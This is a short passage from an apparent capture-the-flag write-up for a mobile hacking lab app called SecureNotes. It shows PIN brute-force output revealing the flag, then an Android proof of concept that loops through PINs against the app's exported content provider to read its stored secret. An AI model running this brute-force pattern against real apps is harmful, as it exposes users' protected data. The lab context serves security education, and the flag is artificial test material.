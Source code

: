 ```bash
[-] Trying PIN: 2577
[-] Trying PIN: 2578
[-] Trying PIN: 2579
[+] PIN Found: 2580
Row: 0 Secret=CTF{D1d_y0u_gu3ss_1t!1?}
```

<br />

The correct PIN is **2580**

<br />

![](/assets/img/mhl/SecureNotes/2.png)



<br /><br />

**Android app PoC**



```xml
<queries>
    <package android:name="com.mobilehackinglab.securenotes" />
</queries>
```

<br />

```java
Uri uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider");
for(int i =2570;i<2581;i++){
    String selection = "pin=" + String.format("%04d",i);
    Cursor cursor = getContentResolver().query(uri, null, selection, null, null);
    if (cursor != null && cursor.moveToFirst()) {
        int index = cursor.getColumnIndex("Secret");
        if (index != -1) {
            String flag = cursor.getString(index);
            Log.d("securenotes","[+] PIN: " + i + "\n[+] Flag: " + flag);
        }
    }
}
```





